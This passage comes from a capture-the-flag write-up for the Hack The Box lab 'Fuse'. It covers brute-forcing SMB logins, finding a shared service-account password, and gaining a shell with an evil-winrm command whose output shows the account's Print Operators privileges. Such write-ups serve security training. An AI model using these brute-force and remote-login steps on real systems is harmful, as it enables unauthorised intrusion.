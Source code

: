 Next I ran a brute force login attack against SMB after adding the new usernames and passwords to my lists.  I noticed that again there was more than one user sharing a password. Both `svc-print` and `svc-scan` service accounts used the same password.

## Initial Foothold

#### Further enumeration

I tried using the winrm enumeration module in metasploit, but for some reason it returned no valid logins. After playing around with different things for awhile trying to get something to work, the colored text in ZSH saved me. I noticed that the `$` in the password were being interpreted as a special character by the terminal. Once I wrapped the password in single quotes I was able to login using `evil-winrm`.

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193 -P 5985                             

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> ls
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ==============================================
fabricorp\svc-print S-1-5-21-2633719317-1471316042-3957863514-1104


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
FABRICORP\IT_Accounts                      Group            S-1-5-21-2633719317-1471316042-3957863514-1604 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


```